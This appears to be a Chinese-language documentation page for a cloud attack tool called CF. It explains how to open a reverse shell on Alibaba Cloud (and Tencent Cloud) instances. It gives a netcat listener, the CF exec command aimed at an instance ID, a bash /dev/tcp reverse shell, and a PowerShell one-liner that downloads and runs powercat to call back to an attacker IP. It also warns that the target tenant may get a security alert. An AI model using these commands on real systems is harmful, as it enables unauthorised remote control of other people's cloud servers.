 ```yaml
---
title: 反弹 Shell
---
```


## 反弹 Shell

首先在自己的主机上开启监听

```bash
nc -lvvp 4444
```

接着在 CF 中执行反弹 Shell 命令

`--lhost` 参数配置为自己监听主机的 IP，`--lport` 参数配置为自己的监听端口，`-i` 设置要反弹 Shell 的实例 ID（如果未指定具体的实例，则 CF 会提醒是否是选择全部实例还是某个实例。）

```bash
cf alibaba ecs exec --lhost 123.123.123.123 --lport 4444 -i i-abcdefghijklmn
```

在 CF 中使用的 Linux 反弹 Shell 如下

```bash
bash -i >& /dev/tcp/123.123.123.123/4444 0>&1
```

在 CF 中使用的 Windows 反弹 Shell 如下


```bash
powershell IEX (New-Object System.Net.Webclient).DownloadString('https://ghproxy.com/raw.githubusercontent.com/besimorhino/powercat/master/powercat.ps1');powercat -c 123.123.123.123 -p 4444 -e cmd
```

> 由于 CF 等待命令执行结果的默认时间是 60 秒，所以在超过 60 秒后，CF 会提示命令执行超时，从而退出程序。
>
> 因为反弹 Shell 需要命令保持一直处于执行状态，所以在上面的图片里可以看到提示命令执行超时。

::: warning 注意

在阿里云下反弹 Shell ，目标租户可能会收到阿里云的云盾告警消息，所以此操作需谨慎。

:::

如果想在腾讯云下执行这些命令，只需要使用 `cf tencent` 跟上对应的命令即可。

<Vssue />

<script>
export default {
    mounted () {
      this.$page.lastUpdated = "2022年7月18日"
    }
  }
</script>